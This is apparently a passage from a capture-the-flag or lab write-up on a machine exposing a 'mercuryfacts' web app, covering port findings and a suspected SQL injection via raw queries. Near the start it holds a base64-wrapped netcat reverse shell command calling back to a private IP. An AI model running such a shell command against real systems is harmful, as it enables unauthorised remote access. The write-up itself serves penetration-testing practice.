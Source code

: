 ```echo ‘nc -e /bin/bash 192.168.1.9 4444’ | base64```
Open Ports :



-	22 SSH (OpenSSH)
-	8080 http (WSGI Server 0.2 – Python 3.8.2)







**2. Weaponization**




Objective: Identify vulnerable web components and prepare for exploitation.




While trying the common different url paths. I noticed something : 


<img width="1085" height="437" alt="image" src="https://github.com/user-attachments/assets/e59dd5a5-65e1-4543-b5dd-471c49802d2a" />


Tried adding it (mercuryfacts/) in the url path and I get this result : 


<img width="988" height="976" alt="image" src="https://github.com/user-attachments/assets/8493e95a-f550-4110-b043-338c9407a29b" />


/mercuryfacts/ contains:

Mercury Facts – Informational

Website Todo List – Reveals insecure DB access via raw SQL queries


<img width="1025" height="236" alt="image" src="https://github.com/user-attachments/assets/d5a3b408-aebc-4c9c-b498-a3c1f246f618" />


<img width="1019" height="444" alt="image" src="https://github.com/user-attachments/assets/09e10a4b-892a-4826-b27f-b35a1f8e061e" />




The machine use models in Django instead of direct MySQL call → They’re currently calling the DB directly. This opens the door to SQL injection.



**3. Delivery**



```